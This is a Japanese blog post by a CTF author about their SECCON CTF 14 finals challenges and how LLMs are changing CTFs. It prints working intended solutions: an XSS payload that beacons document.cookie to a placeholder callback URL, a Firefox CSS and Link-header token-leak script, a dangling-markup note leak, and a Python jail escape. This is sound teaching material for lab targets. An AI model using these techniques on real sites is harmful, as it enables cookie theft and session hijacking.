



import {Tweet} from "@site/src/components/tweet";

2/28〜3/1の2日間、SECCON CTF 14の本戦が行われました！

参加した皆さんありがとうございます & 入賞したみなさんおめでとうございます :tada:





今年は、1日目がJeopardyで2日目がKing of the Hillという競技形式でした。両日でまったく異なる競技形式であるため、1〜2日目の間の夜に寝る間も惜しんで問題に挑む今までの慣習（いわゆる宿題）がなかったのは参加者視点だと大きかったかと思います。

私はJeopardyのweb問とjail問を作問しました。Slay the Noteは特におすすめです！

|Challenge|Category|Intended<br />Difficulty|Solved / 9<br />(Internatinal)|Solved / 9<br />(Domestic)| Keywords |
|:-:|:-:|:-:|:-:|:-:|:-:|
|Warmup|web|warmup| 9 | 9 |stream|
|DOMDOMDOMPurify|web|easy| 9 | 9 |DOMPurify, mXSS|
|Shadow CSS|web|medium| 1 | 0 |Firefox, Link|
|Slay the Note|web|medium| 0 | 0 |cookie parser|
|increasing|jail|medium| 4 | 4 |pyjail|

各問題のソースコードやソルバはリポジトリにpush済みです:

- https://github.com/arkark/my-ctf-challenges?tab=readme-ov-file#seccon-ctf-14-finals

※ この記事はwriteupではなくて作問の背景や感想です。

<!-- truncate -->

Jeopardyは1日目の9時間開催であり、4人チームで各自が自分の得意ジャンルを挑むことを考慮すると、実質ソロ参加の9時間CTFです。その想定で全体の難易度を調整したつもりで問題セットを用意しました。

結果だけ見ると、webについては、比較的簡単めな2つの問題はAI-solvableだったみたいで全チームに解かれ、残り2問はほとんど解かれないという順位の差が付かないものになってしまいました。AIチェックが甘かったのは完全に準備不足だったので申し訳ないです。そうなった細々とした理由はありますが、脱線するので後述します。Slay the Noteは、ほとんど答えまで行っていたチームが複数あったので、あと数時間くらい時間が長ければsolvesは増えていたかもしれないです。

## LLM時代のCTF

:::info
自分の今の考えを一度言語化しておきたくてこの章を用意したけど、読み飛ばして大丈夫です。
:::

昨今のAIブームを見るにLLM時代のCTFについての話題を見かけることも増えてきたので、ここで触れておきます。「CTFは終わったのか？ / 終わるのか？」という話は1年ちょっと前くらいからずっとされてましたし、実際、今回のSECCON CTF本戦ではすべてのチームがLLMをメイン武器として利用していたと思います。

※ カテゴリによって見えている景色は大きく異なっているようで、傍から見ると「reversing → crypto → web → pwn」の順にLLMの躍進が目立っている印象です。私の視点ではwebしか見えていないので、以下は **webに対する言及** であって他カテゴリについてはノーコメントの立場です。

現状は以下の印象です:

- 典型問題や初心者向けの易しい問題: AIに投げるだけで解ける
- 典型ではなく少し発展的な問題: 適切な誘導を与えればAIで解ける
- 新規性やクリエイティブ性のある問題: まだAIで解けない

中難易度帯の一部と高難易度帯では競技としてまだ成立している感覚です。実際、今回のShadow CSSやSlay the Noteは全然解かれていません。また、AI活用のうまさやPay to Winの本気度によって多少のブレはあるので、みんながみんなAIを使えば同等の力が得られるというわけではないのでそこは勘違いしないようにしたいです。難しい問題はAIで解けないと書きましたが、AIを活用・連携しながら解くのは当たり前の時代です。

さて、現状は現状として、上記の"AI-solvability"のグラデーション（というか閾値）のようなものが現在進行系で押し上げられているのも事実です。AIで簡単に解けてしまう領域に関しては競技性は完全に失われてしまうので、その領域がどんどん大きくなっている実情を踏まえると **"競技性をCTFに求めるなら"** 将来的にオワコンになっていくのは自然な流れです。そこは素直に受け止めたいです。

とはいえ正直なところ、オンラインCTFで0〜2 solvesのボス問相当の問題になると、完全に新規の攻撃手法であったり異常なout-of-the-boxを求められたりするので、今後もAIだけで解くのは難しいのではないかと思っています。逆にそれらがAIに解かれるようになると、世の中の「研究」に類いするものはすべて価値をなくしてしまいそうです。いずれその未来がやってくる可能性は否定できないですが、もしそこまできたらCTFどうこうの話以前に社会構造が変わるレベルまで影響しそうなので一旦気にしなくていいと思います。いや、気にするべきではあるんですがだいぶスケールの大きな話になりそうなので。

というわけで、そのレベルの難易度帯が出題されるCTFは今後もしばらく生き残れそうなんですが、一部のトップ層の人しか楽しめないコンテンツになりそうという懸念はあります。

大局的には、「CTFは **競技として** みんなが楽しめるコンテンツだ」という幻想はもう捨ててしまって、純粋に **娯楽や教育目的として** のCTFにシフトしていくと良さそうかなと思います。もしくは、Intigritiが一時期やっていた、「高難易度なXSSチャレンジを1問だけ出題 → 1週間程度の締め切りを設定した上でみんなに挑んでもらう」みたいな企画は別の切り口としてありかもです。

せっかくここまで成熟した（？）コミュニティではあるので、CTFは終わったんだという風な煽りや悲観はむやみにせずに、娯楽としてまだまだ楽しめる余地がたくさんあるという方向性で世間の関心が向くといいなあと考えています。コンピュータ・サイエンスを絡めたパズルを遊ぶのはおもしろいですし、もっと広まってほしいです。

ちなみに元々私は楽しく遊べたらいいじゃん派であって、順位とかはサブ要素としてしか感じていなかったので現状に悲観的な立場ではないです。競技ジャンキーな人たちにとってはつらいかもです。

## [web] Warpup

問題文:
```
warpup = warp + warmup

- Challenge: http://warpup.{int,dom}.seccon.games:3000
```

ソースコード & ソルバ:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202603_SECCON_CTF_14_Finals/web/warpup

様々な言語でstreamのインターフェイスを備えた機能を標準ライブラリやフレームワーク等で提供されていることが増えてきてるんですが、特にutf-8エンコード/デコードでありがちな罠をテーマに出題してみました。

元ネタはこちらです:

- https://zenn.dev/fraim/articles/2024-02-01-rust-hyper-buffer-size

今回の問題では、以下の通りリクエストボディをstreamで読み込んでいます。最終的にパストラバーサルで `/proc/self/environ` を読めばフラグが手に入ります。
```rust title="backend/src/main.rs"
async fn read_file(
    body: impl Stream<Item = Result<impl bytes::Buf, warp::Error>>,
) -> impl warp::Reply {
    let path: String = body
        .fold(String::from("./"), |mut path, buf| async move {
            let mut buf = buf.unwrap();
            while buf.has_remaining() {
                let chunk = buf.chunk();
                path += &String::from_utf8(chunk.into()).unwrap_or_default();
                buf.advance(chunk.len());
            }
            path
        })
        .await;

    fs::read_to_string(&path).unwrap_or(format!("Not Found: {}", &path).into())
}
```

`String::from_utf8(chunk.into()).unwrap_or_default()` で、デコードが失敗したら `unwrap_or_default` で握りつぶしている処理が重要です。また、長いペイロードを一気に投げるとチャンクが分割されるので、マルチバイト文字の途中でちょうど分割されるような長い文字列を渡すと、すべて無視されて空文字列になります。

また、以下のようなプロキシが用意されており、 `waf` 関数によって単純なパストラバーサルが防がれているのでどうすればよいかという問題でした:
```python title="proxy/app.py"
import socket, select, threading

LISTEN = ("0.0.0.0", 3000)
UPSTREAM = ("backend", 3000)


def waf(req: str) -> bool:
    return (
        # Path traversal?
        ".." in req
        or
        # Transfer-Encoding?
        "transfer" in req.lower()
    )


def proxy(client: socket.socket, upstream: socket.socket):
    rlist = [client, upstream]
    for conn in rlist:
        conn.settimeout(0.2)

    req = b""
    while rlist:
        r, _, _ = select.select(rlist, [], [], 10)
        if not r:
            break
        for src in r:
            dst = [client, upstream][src is client]

            data = b""
            while True:
                try:
                    data += src.recv(65536)
                except (BlockingIOError, TimeoutError) as e:
                    break
            if not data:
                dst.shutdown(socket.SHUT_WR)
                rlist.clear()
                break

            if src is client:
                req += data
                if waf(req.decode()):
                    client.sendall(
                        b"HTTP/1.1 403 Forbidden\r\n"
                        b"Content-Type: text/plain\r\n"
                        b"Content-Length: 0\r\n"
                        b"Connection: close\r\n\r\n"
                    )
                    rlist.clear()
                    break

            dst.sendall(data)


def handle(client: socket.socket):
    try:
        upstream = socket.create_connection(UPSTREAM, timeout=10)
        proxy(client, upstream)
    finally:
        for conn in (client, upstream):
            try:
                conn.close()
            except:
                pass


def main():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        sock.bind(LISTEN)
        sock.listen(socket.SOMAXCONN)
        print(f"* forwarding {LISTEN} -> {UPSTREAM}")
        while True:
            client, _ = sock.accept()
            threading.Thread(target=handle, args=(client,), daemon=True).start()


if __name__ == "__main__":
    main()
```

ソルバはこちらです:

- https://github.com/arkark/my-ctf-challenges/blob/main/challenges/202603_SECCON_CTF_14_Finals/web/warpup/solution/solve.py

HTTP/1.1で適切にsleepを入れつつ長いペイロードを送れば解けるんですが、HTTP/2で（AIが）がんばって解いたチームが多かった雰囲気です。

AIチェックは行ったつもりだったんですが、甘かったようです。
HTTP/2解法は想定していなくて、実際にAIがHTTP/2で解こうとする様子は確認できてたんですが、回答を待ちきれずに「HTTP/2路線で考えるのはやめてください」と指示を出してしまっていたような記憶があります。本当に良くない。

まったくコンテキストを入れずに、純粋に解いてもらうようにテストするべきでした。


## [web] DOMDOMDOMPurify

問題文:
```
DOM DOM DOM

- Challenge: http://domdomdom.{int,dom}.seccon.games:3000
- Admin bot: http://domdomdom.{int,dom}.seccon.games:1337
```

ソースコード & ソルバ:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202603_SECCON_CTF_14_Finals/web/domdomdom

以下のHTMLファイルでXSSをやってくださいという問題でした。シンプルなDOMPurifyパズルです。
```html
<body>
  <h1>XSS Challenge</h1>
  <form action="/" method="get">
    <input name="x" placeholder="{X}" required />
    <input name="y" placeholder="{Y}" required />
    <input name="z" placeholder="{Z}" required />
    <button type="submit">Go</button>
  </form>
  <main id="result" style="font-size: 2em; padding: 0.5em">{X}{Y}{Z}</main>
  <script
    src="https://cdn.jsdelivr.net/npm/dompurify@3.3.1/dist/purify.min.js"
    integrity="sha256-m0lAV/rWZW/ZziCJ0LaJjfljLBDkXkd1pDBzpGz/yMs="
    crossorigin="anonymous"
  ></script>
  <script>
    DOMPurify.addHook("afterSanitizeAttributes", (node) => {
      for (const { name, value } of node.attributes) {
        if (/[{}]/.test(value)) node.attributes.removeNamedItem(name);
      }
    });

    const [[, x], [, y], [, z]] = new URLSearchParams(location.search);
    if (x && y && z)
      result.innerHTML = "{X}{Y}{Z}"
        .replace("{X}", () => DOMPurify.sanitize(`<span>${x}</span>`))
        .replace("{Y}", () => DOMPurify.sanitize(`<span>${y}</span>`))
        .replace("{Z}", () => DOMPurify.sanitize(`<span>${z}</span>`));
  </script>
</body>
```

本来は属性値で `{}` の文字種が使えないように制約を与えたつもりだったんですが、普通にバグっており少しfor文を騙せば属性値で使用可能でした。流石に簡単すぎるのでAIに瞬殺です。

<Tweet html='<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">あ！しまった<br>DOMDOMDOMPurifyは以前にLLMに投げたときは答えが出なかったのを確認したが、確認したあとにコードの改変をした箇所にバグがあり自明解を生んでいた（実際は属性値で{}は一切使えない想定）<br>ちゃんと最後にLLMに投げなさーい</p>&mdash; Ark (@arkark_) <a href="https://twitter.com/arkark_/status/2028488791258964156?ref_src=twsrc%5Etfw">March 2, 2026</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>'></Tweet>

今までの作問の中で一番しょうもない作問ミスなので反省です。すみません...

想定解は以下です:
```javascript
const x = `<style><{Y}/style> <{Z}img src onerror=eval(decodeURIComponent(location.hash.slice(1)))></style>`;

// ref. https://github.com/cure53/DOMPurify/blob/3.3.1/src/purify.ts#L1080-L1090
const y = `&lt;a<!--`;
const z = `&lt;a<!--`;

const xss = `navigator.sendBeacon("${CONNECTBACK_URL}/flag", document.cookie)`;
const url = `http://web:3000?${new URLSearchParams({ x, y, z })}#${encodeURIComponent(xss)}`;
```

`DOMPurify.sanitize("<span>&lt;a<!--</span>")` の結果は空文字列になるので、それをうまくパズルに組み込めば解けます。

```javascript
DOMPurify.sanitize(`<span>${y}</span>`)
```
の結果が空文字列にする方法はありますか？とLLMに聞くと答えてくれるので、DOMPurifyの細かい挙動を確認しつつ軽めのパズルをし、適切な誘導をLLNMに与えれば解けるという塩梅を狙ってました。

## [web] Shadow CSS

問題文:
```
Shadow DOM is not a security boundary, but a fun CTF toy :)

- Challenge: http://shadow-css.{int,dom}.seccon.games:3000
- Admin bot: http://shadow-css.{int,dom}.seccon.games:1337
```

ソースコード & ソルバ:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202603_SECCON_CTF_14_Finals/web/shadow-css

問題サーバのソースコードは以下だけです:
```javascript
import express from "express";
import cookieParser from "cookie-parser";

const template = `
<!DOCTYPE html>
<html>
  <head>
    <style>{{CSS}}</style>
  </head>
  <body>
    <h1>Shadow CSS 👤</h1>
    <div>
      <template shadowrootmode="closed">
        <div data-token="{{TOKEN}}"></div>
      </template>
    </div>
  </body>
</html>
`.trim();

express()
  .use(cookieParser())
  .get("/", (req, res) => {
    const { css = "", k, v } = req.query;
    const TOKEN = req.cookies.TOKEN ?? "TOKEN_0123456789abcdef01234567";

    const html = template
      .replace("{{TOKEN}}", () => TOKEN.replace(/[<>"]/g, ""))
      .replace("{{CSS}}", () => css.replace(/[<>]/g, ""));

    if (k && v) res.header(k, v);
    res.type("html").end(html);
  })
  .listen(3000);
```

botの `TOKEN` クッキーを盗むのがゴールで、ブラウザは **Firefox** です。

CSSインジェクションとヘッダのkey/valueを1組指定可能な状態で、Shadow DOM内の属性値の値を盗むことが可能か？という問題でした。

以下のkinugawaさんのスライドにもある通り、CSSの継承を悪用すればCSSインジェクションでShadow DOM内の **テキスト** をリークすることは可能ですが、 **属性値** をリークするのは難しいです:

- https://speakerdeck.com/masatokinugawa/shibuya-dot-xss-techtalk-number-13?slide=41

属性値リークは私も色々挑戦したのですが今のところ有効な手法は思いついていないです（もし、思いついた人がいたら教えてください！）。
というわけで、CSSインジェクションに加えてヘッダインジェクションが可能だったらリークできるか？という問題に昇華してみました。

想定解はLinkヘッダによるCSS読み込みです。現状主要なブラウザでLinkヘッダにstylesheetを指定可能なのはFirefoxのみです。Linkヘッダでは通常の `<link>` 要素と同様にintegrityを指定できるので、SRIチェックによって `Content-Length`でレスポンスサイズを調整しつつ一文字ずつ特定することが可能です。2年前に私が出題した「cgi-2023」とオラクルの作り方が似ているので参考になると思います:

- https://blog.arkark.dev/2023/12/28/seccon-finals#web-cgi-2023

こんな感じでリーク可能です:

```html
<body>
  <script
    src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.2.0/crypto-js.min.js"
    integrity="sha512-a+SUDuwNzXDvz4XrIcXHuCf089/iJAoN4lmrXJg18XnduKK6YlDHNRalv4yd1N40OKI80tFidF+rqTFKGPoWFQ=="
    crossorigin="anonymous"
    referrerpolicy="no-referrer"
  ></script>

  <script type="module">
    const BASE_URL = "http://web:3000";
    const CHARS = [..."0123456789abcdef"];

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const calcIntegrity = (data) => "sha256-" + CryptoJS.enc.Base64.stringify(CryptoJS.SHA256(data));

    const getCss = (css, prefix) => {
      return (
        `
<!DOCTYPE html>
<html>
  <head>
    <style>{{CSS}}</style>
  </head>
  <body>
    <h1>Shadow CSS 👤</h1>
    <div>
      <template shadowrootmode="closed">
        <div data-token="
        `
          .trim()
          .replace("{{CSS}}", css) + prefix
      );
    };

    const win = open("");
    await sleep(100);

    const leak = async (known) => {
      const links = [];
      for (const c of CHARS) {
        const prefix = known + c;

        const innerCss = `{} h1 { background: url(${location.origin}/leak?prefix=${prefix}) }`;
        const outerCss = getCss(innerCss, prefix);

        const integrity = calcIntegrity(outerCss);
        const link = `</?${new URLSearchParams({
          css: innerCss,
          k: "Content-Length",
          v: new TextEncoder().encode(outerCss).length,
        })}>; rel=stylesheet; integrity=${integrity}`;

        links.push(link);
      }

      const url = `${BASE_URL}/?${new URLSearchParams({
        k: "Link",
        v: links.join(", "), // https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Link#specifying_multiple_links
      })}`;

      win.location = url;

      return await Promise.race([
        fetch(`/known?length=${known.length + 1}`).then((r) => r.text()),
        sleep(1000),
      ]);
    };

    let known = "TOKEN_";
    for (let i = 0; i < 12 * 2; i++) {
      console.log({ known });
      known = await leak(known);
    }

    navigator.sendBeacon("/token", known);
  </script>
</body>
```

ちなみに、botのtimeoutは10秒に設定されておりXS-Leakにしてはかなり短くて、高速なオラクルでないといけません。

実はLinkヘッダはカンマ区切りで複数のリンクを指定可能です。想定解ではこれを利用して高速化を行っており約5秒程度でリークが完了します:

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Link#specifying_multiple_links

また、ちょっとしたtipsですが、通常はドキュメントがQuirks Modeではない場合は `Content-Type: text/html` のレスポンスをCSSとして読み込むのはブラウザに拒否されますが、Linkヘッダによる読み込みの場合はその限りではないようです。

## [web] Slay the Note

問題文:
```
🐍 Snecko Eye 👁

- Challenge: http://slay-the-note.{int,dom}.seccon.games:3000
- Admin bot: http://slay-the-note.{int,dom}.seccon.games:1337
```

ソースコード & ソルバ:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202603_SECCON_CTF_14_Finals/web/slay-the-note

問題サーバのソースコードは以下だけです:
```javascript
import Koa from "koa";
import Router from "@koa/router";
import bodyParser from "@koa/bodyparser";
import sanitize from "sanitize-html";
import fs from "node:fs";
import crypto from "node:crypto";

const app = new Koa();
app.use(bodyParser());

app.use((ctx, next) => {
  const nonce = crypto.randomBytes(8).toString("base64");
  ctx.set(
    "Content-Security-Policy",
    `script-src 'nonce-${nonce}'; style-src 'nonce-${nonce}'; base-uri 'none'`,
  );
  ctx.nonce = nonce;

  ctx.notes = ((v) => (v ? v.split("|") : []))(ctx.cookies.get("notes"));
  next();
  ctx.cookies.set("notes", ctx.notes.join("|"));
});

const router = new Router()
  .get("/", (ctx) => {
    ctx.type = "html";
    ctx.body = fs
      .readFileSync("index.html", { encoding: "utf-8" })
      .replaceAll("{{NONCE}}", () => ctx.nonce);
  })
  .get("/notes", (ctx) => {
    ctx.type = "json";
    ctx.body = ctx.notes;
  })
  .post("/new", (ctx) => {
    const note = sanitize(
      `<article>${String(ctx.request.body.note).slice(0, 1024)}</article>`,
    );
    ctx.notes.push(note);
    ctx.notes.sort();
    ctx.redirect("/");
  });

app.use(router.routes()).use(router.allowedMethods());

app.listen(3000);
```

以下の通りbotはTOKENをノートとして投稿するので、そのノートの内容をリークするのがゴールです:
```javascript
  const context = await browser.createBrowserContext();

  try {
    // Create a token note
    const page1 = await context.newPage();
    await page1.goto(challenge.appUrl, { timeout: 3_000 });
    await page1.waitForSelector("#create");
    await page1.type("#create input[name=note]", token);
    await page1.click("#create input[type=submit]");
    await sleep(1_000);
    await page1.close();
    await sleep(1_000);

    // Visit the given URL
    const page2 = await context.newPage();
    await page2.goto(url, { timeout: 5_000 });
    await sleep(15_000);
    await page2.close();
  } catch (e) {
    console.error(e);
  }
```

この問題で一番重要なのはKoa（が依存しているcookies）のcookie parserの以下の処理です:
```javascript title="https://github.com/pillarjs/cookies/blob/0.9.1/index.js#L95"
  if (value[0] === '"') value = value.slice(1, -1)
```

なんと、Cookieの値部分で先頭に `"` が存在した場合、パース時に先頭と末尾がそれぞれ1文字ずつ落とされます。
加えてアプリケーションのロジックをよく読むと `|` の取り扱いがおかしいので、この2つのギミックを利用してパズルをすると解けます:
```html
<body>
  <form id="create" action="..." method="post" target="win">
    <input type="text" name="note" />
  </form>
  <script type="module">
    const BASE_URL = "http://web:3000";

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const win = open("", "win");
    const createNote = async (note) => {
      const form = document.forms[0];
      form.action = `${BASE_URL}/new`;
      form.note.value = note;
      form.submit();
      await sleep(500);
    };

    const deleteLast = async (num) => {
      for (let i = 0; i < num; i++) {
        win.location = `${BASE_URL}/notes`;
        await sleep(100);
      }
    };

    await createNote(`Y|${'"'.repeat(20)}`);
    await createNote(`Z|$<table></table>`);
    await deleteLast(`></table></article>`.length - 2 - 1);
    await createNote(`|/background="${location.origin}/leak?dangling=`);
    await createNote(`X"<table></table>`);
    // ref. https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#background-attribute
  </script>
</body>
```

sanitize-htmlが結構固くて、最後に `<table background=...` という古のテクニックを使うのは盲点だったかなと思います。ちなみに私はChatGPTに聞きました:



解法については、st98さんのwriteupがかなり丁寧に書かれていてわかりやすいので参考にしてください:

- https://nanimokangaeteinai.hateblo.jp/entry/2026/03/02/235931#競技時間中には解けず-Web-500-Slay-the-Note-0-solves

作問背景としては、趣味でパーサの実装を眺めていたらたまたまおもしろい実装を見かけたので、それをそのままパズルに落とし込んでみました。パズルとしては自信作なので、色んな人に挑戦してもらえるとうれしいです！

昨年出題したtwisty-xssも、XSSパズルとしておすすめです。パズルしましょう。

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202503_SECCON_CTF_13_Finals/web/twisty-xss

ところでSlay the Spire 2がかなりおもしろいです。助けてください。

## [jail] increasing

問題文:
```
a bb ccc dddd eeeee ffffff ggggggg ...

`nc increasing.seccon.games 5000`
```

ソースコード & ソルバ:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202603_SECCON_CTF_14_Finals/jail/increasing

本戦で1問だけ出題されたjail問です。複数問を用意しても良かったんですが、4人チームでjail担当でやってくる人はあまりいないだろうということで自粛しました。

内容はpyjailです:
```python
code = input("code> ")[:130]

if not code.isascii():
    print("bye")
    exit(1)

max_len = 0
for m in __import__("re").finditer(r"\w+", code):
    if len(m[0]) <= max_len:
        print("bye")
        exit(1)
    max_len = len(m[0])

eval(code, {"__builtins__": {}})
```

狭義単調増加プログラミングをやってください、ただし130文字以内で...という問題でした。

意味不明な問題設定ですが、jailCTF 2025のprimalから問題アイデアが生まれました:

- https://github.com/jailctf/challenges-2025/blob/master/primal/handout/main.py

primalの方は長さが素数になっているものしか使えないという制限でした。不可思議な制限でもちゃんと問題として成立しているのはおもしろいなと思います。

さて、今回の問題increasingの想定解は以下でした（124文字）:
```python
(__builtins__:=[].__reduce_ex__(-~(()==()))[()<()].__getattribute__("\u0000__builtins__"[()==():]))["\U00000062reakpoint"]()
```

同じ解法の人はいましたか？

`__builtins__`を上書きすることで `breakpoint()` を呼べるようにしています。
`\U00000062` がきれいにはまっているのが推しポイントです。
